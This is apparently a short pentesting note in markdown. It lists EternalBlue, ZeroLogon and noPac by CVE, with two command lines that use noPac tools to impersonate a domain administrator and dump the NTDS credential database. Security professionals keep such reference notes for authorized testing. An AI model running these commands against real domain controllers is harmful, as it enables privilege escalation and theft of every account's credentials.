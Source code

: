 ```yaml
---
cssclass: clean-embeds
---
```


# 9 Exploits
![[Global Vulnerabilities]]

## Known exploits
EternalBlue (CVE-2017-0144):

ZeroLogon (CVE-2020-1472):

noPac (CVE-2021-42278 & CVE-2021-42287):
`python3 sam_the_admin.py -dc-ip <IP> <DOMAIN>/<USER>:<PASS>`
`python3 noPac.py -use-ldap -dc-ip <IP> <DOMAIN>/<USER>:<PASS> --impersonate administrator -dump` # priv esc & dump NTDS